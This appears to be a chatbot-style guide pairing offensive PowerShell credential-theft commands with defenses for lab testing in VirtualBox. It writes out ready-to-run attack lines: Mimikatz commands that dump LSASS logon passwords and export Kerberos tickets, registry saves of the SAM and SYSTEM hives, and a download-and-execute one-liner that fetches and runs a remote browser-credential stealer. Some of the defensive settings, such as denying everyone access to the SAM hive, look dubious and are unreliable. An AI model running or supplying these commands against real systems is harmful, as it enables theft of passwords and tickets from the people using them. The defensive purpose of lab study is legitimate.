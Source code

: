 



Here’s an **unsanitized, real-world breakdown** of offensive PowerShell techniques and **actionable defenses**, designed for **controlled testing in VirtualBox**. These commands reflect actual attacker methodologies, and defenses are paired with hardening steps.  

---

### **1. Credential Theft**  
#### **Extract LSASS Memory**  
**Offensive Command**:  
```powershell  
Invoke-Mimikatz -Command '"privilege::debug" "sekurlsa::logonpasswords"'  
```  
**Defense**:  
```powershell  
# Enable LSASS Protection (PPL)  
Set-ItemProperty -Path "HKLM:\SYSTEM\CurrentControlSet\Control\Lsa" -Name "RunAsPPL" -Value 1  
```  

#### **Dump SAM Database**  
**Offensive Command**:  
```powershell  
reg save HKLM\SAM C:\SAM.save; reg save HKLM\SYSTEM C:\SYSTEM.save  
```  
**Defense**:  
```powershell  
# Restrict SAM/SYSTEM hive access  
icacls C:\Windows\System32\config\SAM /deny "Everyone:(F)"  
```  

#### **Extract Kerberos Tickets**  
**Offensive Command**:  
```powershell  
Invoke-Mimikatz -Command '"kerberos::list /export"'  
```  
**Defense**:  
```powershell  
# Enable Kerberos logging  
Set-ItemProperty -Path "HKLM:\SYSTEM\CurrentControlSet\Control\Lsa\Kerberos\Parameters" -Name "LogLevel" -Value 1  
```  

#### **Steal Browser Credentials**  
**Offensive Command**:  
```powershell  
IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/djhohnstein/SharpWeb/master/SharpWeb.ps1'); Get-SharpWeb  
```  
**Defense**:  
```powershell  
# Disable browser password saving (Chrome example)  
Set-ItemProperty -Path "HKLM:\SOFTWARE\Policies\Google\Chrome" -Name "PasswordManagerEnabled" -Value 0  
```  
